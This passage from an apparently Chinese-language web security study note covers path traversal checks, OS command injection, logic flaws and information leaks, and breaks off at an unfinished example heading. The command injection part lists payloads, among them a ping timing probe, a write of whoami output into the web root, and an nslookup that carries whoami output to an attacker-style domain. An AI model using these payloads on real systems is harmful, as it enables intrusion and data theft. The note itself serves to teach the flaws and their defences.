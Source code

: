 ```java
File file = new File(BASE_DIRECTORY, userInput);
if (file.getCanonicalPath().startsWith(BASE_DIRECTORY)) {
    // process file
}
```

### 系统命令注入

Web开发中，某些函数调用了shell命令，这些函数含有用户的输入作为参数，如果对用户的输入不做检查，直接拼接到系统调用的命令中，则可能会发生命令注入。command1 & command2 执行左右两边的命令，一般用&cmd&来执行注入，这样可以减少后面的命令影响到注入命令的可能性。

注入方式：

	1. 直接注入，可用url编码编码&、空格等特殊字符

判断是否可以注入：

1. 时间盲注判断   x||ping+-c+10+127.0.0.1||.  (对异步执行的无效)
2. 覆写盲注判断 如果存在图片显示，猜测出图片存储路径，该路径可写，写入一个图片，然后访问，查看内容是否发生变换 & whoami > /var/www/static/whoami.txt &
3. 带外注入 & nslookup \`whoami\`.kgji2ohoyw.web-attacker.com &

防范方法：

1. 使用平台的API调用系统命令
2. 做严格的用户输入验证（白名单）





###  应用逻辑漏洞

由于开发者或测试者对用户的输入的假设不够充分，没有考虑到全部的状态，导致应用不按设想的逻辑运行，可能会造成各种漏洞。

**常见类型：**

1. 过分依赖客户端的数据检测
2. 没有处理好非常规的输入
   1. 是否对数据有任何限制（思考方向：整数大小溢出，字符串长度截断，负数处理）
   2. 会发生什么
   3. 是否有转化或正则化数据
3. 用户的行为不按套路出牌,验证或是购物逻辑，直接跳到最后一步
4. 传入的参数，可能不存在或被修改
5. 虽然对某些登录的凭证做了加密，但是应用存在其他地方用了相同的加密方式，以至于，可以通过该方式解密，使得信息泄露，或是构造出新的登录凭据

**防范方法：**

对所有的输入、应用的状态做充分的考虑

### 信息泄露

由于开发者安全意识差，在部署网站的时候遗留下了开发时的信息（注释、网站的第三方框架），或是网站上会出现用户的敏感信息，其具体可以归为以下三类：

1. 关于用户的数据，包括用户名或是邮箱信息
2. 敏感的注释
3. 关于这个网站的技术细节和基础设施

例子：
